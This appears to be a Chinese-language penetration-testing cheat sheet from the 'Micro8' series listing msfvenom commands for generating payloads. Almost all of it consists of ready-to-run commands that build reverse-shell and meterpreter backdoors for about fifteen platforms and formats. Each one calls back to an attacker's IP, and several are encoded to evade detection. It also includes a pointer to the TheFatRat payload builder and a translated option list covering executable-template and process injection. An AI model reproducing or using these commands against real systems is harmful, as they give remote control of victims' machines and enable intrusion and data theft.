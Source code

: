 ```yaml
---
title: 10、msfvenom常用生成payload命令
date: 2019-09-21 19:03:59
comments: true
categories: 
 - Micro8系列
---
```



# msfvenom 常用生成 Payload 命令

### windows:
```code
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp
LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```
### mac:
```code
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho
```

### android:
```code
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
```

### powershell:
```code
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

### linux:
```code
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```

### php:
```code
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### aspx:
```code
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
### jsp:
```code
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp
```

### war:
```code
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war
```

### nodejs:
```code
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js
```

### python:
```code
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
```

### perl:
```code
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl
```
### ruby:
```code
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb
```

### lua:
```code
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua
```

### windows shellcode:
```code
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### linux shellcode:
```code
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### mac shellcode:
```code
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### 便捷化payload生成：

项目地址：
https://github.com/Screetsec/TheFatRat

```code
root@John:~/Desktop# git clone https://github.com/Screetsec/TheFatRat.git
//设置时需要挂墙
```  
![](../do/media/492800d0d4d9ed8b762c3494bc845363.jpg)  

![](../do/media/6eeb8e3d9370ca202dd0b45abe2e8756.jpg)  

![](../do/media/a43ce02f6b76b5f01b8697c215bad11d.jpg)  

![](../do/media/58459088b75ecdcc093e435a5a586638.jpg)  


### 附录：

中文使用说明：
```code
Options:

-p, --payload <payload> 使用指定的payload
--payload-options 列出该payload参数
-l, --list [type] 列出所有的payloads
-n, --nopsled <length> 为payload指定一个 nopsled 长度
-f, --format <format> 指定payload生成格式
--help-formats 查看所有支持格式
-e, --encoder <encoder> 使用编码器
-a, --arch <arch> 指定payload构架
--platform <platform> 指定payload平台
--help-platforms 显示支持的平台
-s, --space <length> 设定payload攻击荷载的最大长度
--encoder-space <length> The maximum size of the encoded payload

(defaults to the -s value)
-b, --bad-chars <list> 指定bad-chars 如: '\x00\xff'
-i, --iterations <count> 指定编码次数
-c, --add-code <path> 指定个win32 shellcode 文件
-x, --template <path> 指定一个 executable 文件作为模板
-k, --keep payload自动分离并注入到新的进程
-o, --out <path> 存放生成的payload
-v, --var-name <name> 指定自定义变量
--smallest Generate the smallest possible payload
-h, --help 显示帮助文件
```


<p align="right">--By  Micropoor </p>
